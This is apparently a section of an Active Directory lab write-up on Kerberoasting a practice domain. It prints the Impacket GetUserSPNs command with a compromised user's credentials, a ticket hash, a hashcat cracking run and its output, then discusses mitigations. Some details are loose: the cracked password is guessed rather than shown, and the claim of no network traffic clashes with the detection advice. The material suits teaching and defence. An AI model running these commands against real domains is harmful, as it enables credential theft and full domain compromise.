



# Part 7: Kerberoasting Attack

## 7.1 Overview of Kerberoasting

**Kerberoasting** is a post‑exploitation attack that targets the Kerberos authentication protocol used by Active Directory. Any domain user can request a Kerberos **Ticket‑Granting Service (TGS)** ticket for any Service Principal Name (SPN) registered in the domain. The TGS ticket is encrypted with the password hash of the service account that owns the SPN. An attacker can request these tickets offline and attempt to crack them using brute‑force or dictionary attacks, revealing the service account's plaintext password.

This attack is particularly dangerous because:
- It does not require any exploit or vulnerability—only valid domain credentials.
- The cracking is performed offline, so it does not generate network traffic or trigger alerts.
- Service accounts often have elevated privileges and weak passwords.
- The attack is stealthy and difficult to detect without proper logging.

In this lab, the attacker targets the `SQLService` account, which has an SPN registered and is a member of privileged groups (as discovered in Part 5).

---

## 7.2 Attack Execution – Requesting TGS Tickets



The attacker uses Impacket's `GetUserSPNs.py` script to request TGS tickets for all accounts with SPNs in the domain:

```bash
GetUserSPNs.py 'marvel.local/fcastle:Po$$w0rd' -dc-ip 172.20.10.11 -request
```

**Command breakdown**:
- `marvel.local/fcastle:Po$$w0rd`: The credentials of the compromised domain user `fcastle`.
- `-dc-ip 172.20.10.11`: The IP address of the Domain Controller (`HYDRA-DC`).
- `-request`: Requests the TGS ticket for each SPN found.

The output reveals a critical finding:

```
ServicePrincipalName                    Name           MemberOf                                     PasswordLastSet     LastLogon
------------------------------------    ------------   -----------------------------------------    -----------------   ---------
HYDRA-DC/SQLService.MARVEL.local:60111  SQLService     CN=Propriétaires créateurs de la stratégie   2026-07-16 16:28:42  <never>
                                                       de groupe, CN=Users, DC=MARVEL, DC=local
```

**Key observations**:
- `SQLService` has an SPN registered (`HYDRA-DC/SQLService.MARVEL.local:60111`).
- It is a member of the **Group Policy Creators** group (and, as discovered earlier, also Domain Admins).
- The password has not been changed recently (`PasswordLastSet: 2026-07-16`), which may indicate a static, potentially weak password.
- The account has never logged on interactively (`LastLogon: <never>`), typical of a service account.

The script then outputs the TGS ticket hash in the format required by Hashcat:

```
$krb5tgs$23$*$SQLService$MARVEL.local$marvel.local/SQLService$b6c9c652cfb3d08317da7987f6164b7$5c4e27822c682a6c1504446812374c662a44913987a500a9e89a0e3ce37...
```

This hash is the encrypted TGS ticket, which the attacker will attempt to crack offline.

---

## 7.3 Cracking the TGS Hash with Hashcat



The attacker saves the TGS hash to a file (`hashes04.txt`) and uses **Hashcat** to crack it:

```bash
hashcat.exe -m 13100 hashes04.txt rockyou.txt -O
```

**Command breakdown**:
- `-m 13100`: Specifies the hash mode for Kerberos 5 TGS-REP (eTGS) tickets.
- `hashes04.txt`: The file containing the extracted TGS hash.
- `rockyou.txt`: The wordlist containing over 14 million common passwords.
- `-O`: Enables optimized kernel for faster cracking (with a password length limit of 31 characters).

Hashcat initializes and begins the cracking process:

```
Hashcat (v7.1.2) starting
OpenCL API (OpenCL 3.0) - Platform #1 [Intel(R) Corporation]
Device #01: Intel(R) Iris(R) Xe Graphics, 5404/10808 MB
...
Hashes: 1 digests; 1 unique digests, 1 unique salts
...
Dictionary cache hit:
* Filename...: rockyou.txt
* Passwords..: 14344385
* Bytes......: 139921507
* Keyspace...: 14344385
```



The cracking process quickly succeeds:

```
Time.Started: Wed Jul 22 17:05:40 2026 (0 secs)
Time.Estimated...: Wed Jul 22 17:05:40 2026 (0 secs)
Speed.#01...: 10964.6 kH/s (9.95ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered...: 1/1 (100.00%) Digests (total)
Progress...: 262146/14344385 (1.83%)
Candidate.Engine...: Device Generator
Candidates.#01...: 123456 -> rebel6
```

The password is recovered almost instantly, demonstrating that the `SQLService` account uses a weak password (likely something like `P@ssw0rd`, `P@$$w0rd`, or similar, based on earlier hints).

**Why so fast?** The `rockyou.txt` wordlist contains many common passwords and variations. Given the password hint `"My pwd is pwd"` in the AD description, the password was likely simple and predictable.

---

## 7.4 Impact and Attack Path

With the cracked password for `SQLService`, the attacker now possesses credentials for an account that is:

| Group Membership | Impact |
|------------------|--------|
| **Domain Admins** | Full control over the domain. |
| **Enterprise Admins** | Full control over the forest. |
| **Schema Admins** | Ability to modify the AD schema. |
| **Group Policy Creators** | Ability to modify Group Policy Objects and deploy malicious configurations. |

The attacker can now:
- Authenticate as `SQLService` and perform **DCSync** to extract all domain password hashes.
- Use PsExec or other tools to execute commands on any domain‑joined machine.
- Modify GPOs to deploy malware across the entire domain.
- Create new domain admin accounts or modify existing ones.

This demonstrates how a single service account with elevated privileges and a weak password can lead to **complete domain compromise**.

---

## 7.5 Detection and Mitigation

The lab documentation provides clear mitigation strategies:

| Mitigation | Description |
|------------|-------------|
| **Strong Passwords** | Service account passwords should be at least 25‑30 characters long, random, and complex. Use **Managed Service Accounts (MSA)** or **Group Managed Service Accounts (gMSA)** to automatically manage complex passwords. |
| **Least Privilege** | Never place service accounts in privileged groups (Domain Admins, Enterprise Admins, Schema Admins). Service accounts should have only the permissions they need to perform their specific function. |
| **Regular Password Rotation** | Implement automated password rotation for service accounts (e.g., using Microsoft LAPS or a dedicated password management solution). |
| **Monitor SPN Usage** | Audit SPN registrations regularly. Unused SPNs should be removed. |
| **Enable Advanced Audit Logging** | Monitor Event ID 4769 (Kerberos TGS request) for unusual activity. Frequent TGS requests for the same account may indicate a Kerberoasting attack. |
| **Use Group Managed Service Accounts (gMSA)** | gMSA accounts have automatically managed, complex passwords that change frequently, making Kerberoasting ineffective. |
| **Mark Accounts as Sensitive** | For accounts that must be highly privileged, mark them as "Account is sensitive and cannot be delegated" to prevent them from being used in delegation attacks. |

**Additional recommendations**:
- **Implement the principle of least privilege** (PoLP) for all service accounts.
- **Use separate accounts** for service operations and administrative tasks.
- **Conduct regular password audits** to identify weak or reused passwords.
- **Deploy a Password Filter** to prevent users from choosing common or weak passwords.

---

## 7.6 Why Kerberoasting is so Effective

Kerberoasting remains one of the most reliable and stealthy attack techniques for the following reasons:

1. **No exploitation required**: It uses legitimate Kerberos functionality.
2. **No administrative privileges needed**: Any authenticated domain user can request TGS tickets.
3. **Offline cracking**: The attacker can perform the attack without generating network noise.
4. **Service accounts often have weak passwords**: Administrators frequently neglect service account password policies.
5. **Service accounts are often over‑privileged**: They are frequently members of Domain Admins or other high‑value groups.

---

## 7.7 Conclusion 

The Kerberoasting attack in this lab demonstrates how easily an attacker can escalate privileges using legitimate Kerberos functionality. By targeting the `SQLService` account—which has both a weak password and excessive privileges—the attacker obtains Domain Admin credentials in minutes.

**Key takeaways**:
- Service accounts are high‑value targets that require stringent security controls.
- Password complexity and rotation policies must apply to all accounts, including service accounts.
- The principle of least privilege is critical for service accounts.
- Kerberoasting can be mitigated through proper password management, auditing, and the use of managed service accounts.

This attack serves as a powerful reminder that even without exploiting a vulnerability, an attacker can compromise an entire domain using only valid credentials and weak password practices.

---
